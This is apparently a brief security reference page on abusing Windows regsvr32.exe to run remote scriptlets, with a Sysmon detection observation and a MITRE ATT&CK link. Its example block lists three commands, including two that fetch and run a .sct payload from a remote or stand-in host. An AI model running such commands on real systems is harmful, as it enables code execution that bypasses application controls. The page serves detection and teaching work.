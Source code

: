# regsvr32.exe
## What is it?
*regsvr32.exe is used to register and unregister COM objects in Windows.*

## Example Attacks
```
regsvr32.exe /s /i:http://10.0.0.5/file.sct scrobj.dll

regsvr32.exe /s /n /u /i:http://malicious[.]site/payload.sct scrobj.dll

regsvr32.exe /u /s /i:payload.sct scrobj.dll
```
calc.exe is spawned by regsvr32.exe:

![image](https://github.com/user-attachments/assets/2d8bab8b-8a61-4b73-92a0-f7e06e90fe7a)

However, sysmon will show regsvr32 establishing a network connection:

![image](https://github.com/user-attachments/assets/7a0a4e63-47a9-4a3a-8987-1e449171381e)

# References
- https://attack.mitre.org/techniques/T1218/010/
